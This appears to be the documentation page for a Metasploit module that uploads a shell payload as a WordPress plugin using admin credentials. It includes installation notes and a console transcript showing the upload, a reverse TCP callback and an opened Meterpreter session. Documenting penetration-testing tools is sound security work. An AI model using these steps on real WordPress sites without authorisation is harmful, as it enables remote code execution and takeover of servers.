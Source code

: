 ## Vulnerable Application

This module takes an administrator username and password, logs into the
admin panel, and uploads a payload packaged as a WordPress plugin.
Becuase this is authenticated code execution by design, it should work
on all versions of WordPress.

### Vulnerable Application Installation

You can get WordPress from [https://wordpress.org/download/](https://wordpress.org/download/)
or from some Linux package managers. [Debian maintains an installation
guide](https://wiki.debian.org/WordPress) that also works on Ubuntu.
Note that in a default install of WP from apt, the plugins directory is
owned by root, so unless you chown it to the web user, this module will
not work. Doing so is common in real-world deployments to allow
legitimate administrators to install plugins, so it is not unreasonable
for your own installation.


## Verification Steps

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf exploit(wp_admin_shell_upload) > set PASSWORD password
PASSWORD => password
msf exploit(wp_admin_shell_upload) > set TARGETURI /wp/
TARGETURI => /wp/
msf exploit(wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Authenticating with WordPress using admin:password...
[+] Login successful
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: afa507398f
[*] Uploaded plugin iHNhrYLmGR
[*] Executing the payload at /wp/wp-content/plugins/iHNhrYLmGR/DcrpFXPOCG.php...
[*] Sending stage (33986 bytes) to 192.168.100.131
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.131:40039) at 2017-04-21 11:36:33 -0500
[+] Deleted DcrpFXPOCG.php
[+] Deleted iHNhrYLmGR.php

meterpreter > pwd
/var/lib/wordpress/wp-content/plugins/iHNhrYLmGR
meterpreter >
```


